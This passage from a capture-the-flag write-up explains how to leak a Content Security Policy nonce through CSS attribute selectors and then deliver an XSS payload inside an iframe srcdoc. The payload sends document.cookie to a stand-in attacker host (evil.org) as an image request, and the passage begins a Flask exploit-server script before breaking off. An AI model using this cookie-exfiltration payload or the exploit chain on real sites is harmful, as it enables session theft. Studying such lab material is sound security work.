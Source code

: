 ```
    body script[nonce^="%s"] ~ #recaptcha
    body script[nonce^="%s"] ~ nav > a
    body script[nonce^="%s"] ~ nav > #report-link
    body script[nonce^="%s"] ~ nav > #username
    body script[nonce^="%s"] ~ nav > [href="/"]
    body script[nonce^="%s"] ~ nav > [href="#"]
```
Putting it all together we managed to get the complete nonce!

### Creating an exploit

Now that we have the nonce we can inject `script`-tags which bypass the
CSP and will be executed. However, directly ínjecting
`<script nonce="...">alert(1);</script>` does not have any effect
because the script isn\'t being evaluated after the page has loaded.
Therefore, to bypass this restriction we include the script inside an
`iframe` by specifying it as the `srcdoc`. Our final exploit looks like
this:
```
    <iframe srcdoc="<script nonce=...>alert(document.cookie); var x = document.createElement('img'); x.src = 'http://evil.org/res?c=' + document.cookie;</script>"></iframe>
```
Notice that we are trying to load an image rather than sending a request
directly because the latter is blocked by the CSP. Luckily, the CSP
allows loading images from any origin.

### Putting it all together

Our final approach was the following:

1.  Enter a chatroom using Chrome so that we are unaffected by the
    exploit
2.  Start the exploit server pointed at the chatroom
3.  Report the chatroom and wait for the admin to join
4.  Send the initial CSS payload manually through the browser.
5.  Let the server handle the rest
    1.  Wait for an http request from the admin
    2.  Parse the GET parameter
    3.  Send the next CSS payload via websockets to exfiltrate the next
        4haracter
    4.  Repeat until we have the whole nonce
    5.  Send the exploit `iframe`
    6.  Listen for the request from the admin containing the cookies
        containing the flag
    7.  ????
    8.  PROFIT!!!!

Below is the final script that ran on the server:
```python
    from flask import Flask, request
    import sys
    import json
    import websocket
    import string

    app = Flask(__name__)
    URL = "http://evil.org:5000"

    payloads = [
            'script[nonce^="%s"] ~ *',
            'script[nonce^="%s"] ~ ul',
            'script[nonce^="%s"] ~ div',
            'script[nonce^="%s"] ~ input',
            'script[nonce^="%s"] ~ nav',
            'body > script[nonce^="%s"] ~ ul',
```